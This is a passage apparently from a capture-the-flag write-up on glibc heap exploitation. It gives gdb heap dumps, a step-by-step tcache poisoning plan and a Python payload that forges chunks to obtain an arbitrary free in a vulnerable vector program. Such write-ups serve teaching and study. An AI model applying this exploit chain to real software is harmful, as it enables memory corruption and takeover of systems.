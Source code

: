 ```bash
0x564173c8a310  0x0000000000000001      0x0000000000000002      ................
0x564173c8a320  0x0000000000000003      0x0000000000000041      ........A.......
0x564173c8a330  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&..         <-- tcachebins[0x40][0/1]
0x564173c8a340  0x0000000000000003      0x0000000000000041      ........A.......
0x564173c8a350  0x0000000000000005      0x0000000000000006      ................
0x564173c8a360  0x0000000000000000      0x0000000000020ca1      ................         <-- Top chunk
0x564173c8a370  0x0000000000000000      0x0000000000000000      ................
```

So, the current exploit plan would be:

1. Poison the tcache to somewhere near the Vector Struct (0x564173c8a260).
2. Insert the poisoned value into the corresponding tcache bin by using the shrink and switch mechanism explained earlier.&#x20;
3. Prepare the payload that's going to get copied into the fake chunk and overlaps the vector struct.
4. Trigger the shrink and switch, it will then get copied into the vector struct.
5. The copied value will then get freed, and we successfully gain an arbitrary free.

The exploit plan:

```python
payload = [
    0x0, 0x0,
    0x0, 0x71,
    xor(heapleak+0x260), randleak, # --> poisoned tcache 
    0x0, 0x21,
    0xdeadbeef, 0x611, # --> value for arbitrary free (0xdeadbeef)
    libcleak, libcleak
]

for item in payload:
    push(convert(item))

shrink() # Poison the tcache
shrink() # Trigger the malloc & memcpy to get arbitrary free.
```

Let's check them out!

```
0x0000564417df9eea
0x564173c8a970  0x0000564417df9eea      0x8fe726c9dc7a332d      ....DV..-3z..&..         <-- tcachebins[0x70][0/2]
```

```bash
0x564173c8a240  0x0000000000000000      0x0000000000000000      ................
0x564173c8a250  0x0000000000000000      0x0000000000000000      ................
0x564173c8a260  0x0000000000000000      0x0000000000000000      ................ # Our fake chunk
0x564173c8a270  0x0000000000000000      0x0000000000000071      ........q.......
0x564173c8a280  0x0000564417df9eea      0x0000000000000000      ....DV..........
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!.......
0x564173c8a2a0  0x00000000deadbeef      0x0000000000000611      ................ # Our arbitrary free
0x564173c8a2b0  0x00007f03e4c42b20      0x00007f03e4c42b20       +...... +......
0x564173c8a2c0  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&..         <-- tcachebins[0x30][0/1]
0x564173c8a2d0  0x0000000000000003      0x0000000000000021      ........!.......
0x564173c8a2e0  0x0000000000000000      0x0000000000000021      ........!.......
```
